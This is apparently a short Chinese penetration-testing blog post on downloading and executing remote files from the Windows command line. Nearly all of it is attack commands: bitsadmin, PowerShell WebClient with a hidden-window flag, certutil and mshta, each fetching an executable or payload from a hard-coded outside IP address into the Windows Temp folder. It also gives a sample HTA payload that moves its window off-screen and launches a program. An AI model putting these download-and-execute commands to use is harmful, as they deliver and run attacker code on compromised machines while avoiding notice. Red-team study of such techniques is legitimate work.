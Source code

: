 +++
date = "2018-02-06T15:12:32+08:00"
description = "在windows的终端下下载文件"
draft = false
tags = ["intranet"]
title = "Windows终端下载文件和执行远程文件"
topics = ["Pentest"]

+++

### 0x00 bitsadmin下载文件
win2008
```bash
bitsadmin /rawreturn /transfer getfile http://114.115.214.203/a.exe C:\Windows\Temp\a.exe
bitsadmin /rawreturn /transfer getpayload 114.115.214.203/a.zip C:\Windows\Temp\a.zip
bitsadmin /transfer myDownLoadJob /download /priority normal "http://114.115.214.203/a.exe" "C:\Windows\Temp\a.exe"
```

### 0x01 powershell下载文件
win2008
```bash
powershell (new-object System.Net.WebClient).DownloadFile("http://114.115.214.203/a.exe","C:\Windows\Temp\a.exe")

#-w hidden 下载后终端自动退出
powershell -w hidden -c (new-object System.Net.WebClient).DownloadFile("http://114.115.214.203/a.exe","C:\Windows\Temp\a.exe")
```

### 0x02 certutil下载文件
```bash
certutil -urlcache -split -f http://114.115.214.203/test.txt test.txt

certutil -urlcache -split -f http://114.115.214.203/a.exe a.exe
```

### 0x03 mshta执行远程hta
```
mshta http://114.115.214.203/payload.hta
```
payload.hta
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <script language="VBScript">
        Window.ReSizeTo 0, 0
        Window.moveTo -2000,-2000
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
        self.close
    </script>
</head>
<body>

demo

</body>
</html>
```

未完待续。。。